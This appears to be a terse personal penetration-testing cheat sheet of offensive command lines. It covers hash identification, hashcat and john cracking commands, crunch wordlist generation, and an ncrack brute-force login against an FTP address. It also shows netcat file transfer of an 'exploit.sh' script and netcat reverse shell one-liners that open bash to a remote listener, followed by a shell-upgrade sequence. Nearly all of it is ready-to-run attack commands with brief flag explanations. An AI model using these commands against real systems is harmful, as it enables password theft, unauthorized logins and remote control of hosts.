 `hash-identifier` herp derp  
`hashid` 

`hashcat` i.a. dictionary, brute force, role based hash cracking  
`hashcat -a 3 -m 1700 /home/user/SHA512_hash.txt --increment --increment-min 6 --increment-max 6 -1 ?l?u?d ?1?1?1?1?1?1`  
`-a` attack mode (here `3` - bruteforce), `-m` mode i.e. type of cracked hash (`1700` - SHA512), `-1` create new charset  
 use `-o results.txt` flag OR after cracking - type the same command with appended `--show` 


john hash cracking
`john --format=RAW-MD5 --wordlist=/usr/share/wordlists/seclists/Passwords/Leaked-Databases/rockyou-50.txt hashestocrack.txt`


`crunch <min-length> <max-length> <character-pool> -o <file-name>` generates passswords  

`ncrack -U /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt -P /usr/share/wordlists/seclists/Usernames/cirt-default-usernames.txt ftp://10.0.2.15:21 -v`  
support:
```
SSH, RDP, FTP, Telnet, HTTP(S), Wordpress, POP3(S), IMAP, CVS, SMB, VNC, SIP, Redis, PostgreSQL, MQTT, MySQL, MSSQL, MongoDB, Cassandra, WinRM, OWA, DICOM
```

for encodings [cyberchef](https://cyberchef.org/)  

### Netcat sending files
Listener:
`nc -lvp 4444 > incomig.txt` nc is a symlink of netcat  
TARGET HIGH PORTS  
Common users usually don't have access to ports under 1000  
`-l` - listening (opens port 4444 and pipe input into incoming.txt).  
`v` verbose `p` port 

Sender: 
`nc -nv 10.0.2.5 4444 < exploit.sh`  
`n` no DNS resolution  


### Netcat reverse shell 
Listener:
`nc -lvp 4444`

Target:  
`netcat 10.0.2.4 4444 -e /bin/bash` or `nc -c bash 10.0.0.1 4444`  
`-e` execute that program after connection -> that way you can send commends directly to opened shell via TCP connection (also possible with UDP `ncat --udp 10.0.0.1 4242 -e /bin/bash`)
[other reverse shells](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Reverse%20Shell%20Cheatsheet.md)

Python tty (teletypewriter) wrapper:  
```bash
python-c 'import pty; pty.spawn("/bin/bash")'  
export TERM=xterm  
CTRL+Z  
stty raw -echo; fg  
```
